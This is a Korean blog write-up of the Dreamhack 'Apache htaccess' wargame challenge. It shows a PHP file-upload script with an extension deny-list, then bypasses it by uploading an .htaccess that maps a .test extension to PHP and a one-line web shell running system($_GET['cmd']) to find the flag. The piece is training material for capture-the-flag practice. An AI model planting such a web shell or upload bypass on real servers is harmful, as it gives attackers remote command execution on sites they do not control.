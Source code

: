 ```yaml
---
title: "[ Dreamhack ] Apache htaccess"
description: "문제 페이지에 접속해보면 파일을 업로드 할 수 있는 페이지가 있다.제공된 소스코드를 보면 php, php3, php4 등의 확장자를 필터링 하고 있다.php 이외의 파일은 필터링이 없으므로 .htaccess파일을 업로드 한 뒤 다른 확장자로 웹 쉘을 실행시킬 수 있다."
date: 2023-04-01T14:11:40.850Z
categories: [Wargame, Dreamhack]
tags: ["dreamhack","web"]
---
```

![](/images/2ea3a3d8-b7bf-4cb6-b76d-b8c76d9ae412-image.png)

<br>

<br>

### **문제 분석**

---

![](/images/142c320b-a853-4648-a81f-d760c37ced88-image.png)

문제 페이지에 접속해보면 파일을 업로드 할 수 있는 페이지가 있다.

<br>

<br>

```php
<?php
$deniedExts = array("php", "php3", "php4", "php5", "pht", "phtml");

if (isset($_FILES)) {
    $file = $_FILES["file"];
    $error = $file["error"];
    $name = $file["name"];
    $tmp_name = $file["tmp_name"];
   
    if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
    }else {
        $temp = explode(".", $name);
        $extension = end($temp);
       
        if(in_array($extension, $deniedExts)){
            die($extension . " extension file is not allowed to upload ! ");
        }else{
            move_uploaded_file($tmp_name, "upload/" . $name);
            echo "Stored in: <a href='/upload/{$name}'>/upload/{$name}</a>";
        }
    }
}else {
    echo "File is not selected";
}
?>
```
제공된 소스코드를 보면 php, php3, php4 등의 확장자를 필터링 하고 있다.

<br>

<br>

### **문제 풀이**

---

php 이외의 파일은 필터링이 없으므로 .htaccess파일을 업로드 한 뒤 다른 확장자로 웹 쉘을 실행시킬 수 있다.

>.htaccess는 웹서버 접근 제어 파일로, 내부적으로 새로운 타입을 명명하거나 디렉토리 접근 권한 등 다양한 설정을 변경할 수 있다.

<br>

<br>

따라서 다음 내용이 들어간 .htaccess 파일을 만들어 업로드 하면 .test확장자를 가진 파일 역시 php로 동작하게 된다.
```
AddType application/x-httpd-php .test
```

<br>

<br>

![](/images/a8b019d2-6ddf-4d62-8a39-495959d06ddf-image.png)

정상적으로 .htaccess 파일이 업로드 되는 것을 확인할 수 있다.

이후 확장자가 .test인 웹쉘을 업로드 해주면 문제를 해결할 수 있다.

<br>

<br>

```php
//webshell.test
<?php
	system($_GET['cmd']);
?>
```

<br>

<br>

![](/images/673d34f3-8246-4e61-9fa2-adc2abf4c354-image.png)
![](/images/3a65587c-cbd5-4a73-a0ac-f293e033a821-image.png)

업로드한 webshell.test파일이 정상적으로 작동하게 된다.

<br>

<br>

![](/images/b1c9bb5d-eaff-47e7-a57e-13e95c19198a-image.png)
![](/images/a207798f-f7ed-42f0-a141-6822cf01092c-image.png)

flag파일을 찾아 실행시키면 flag를 얻을 수 있다.
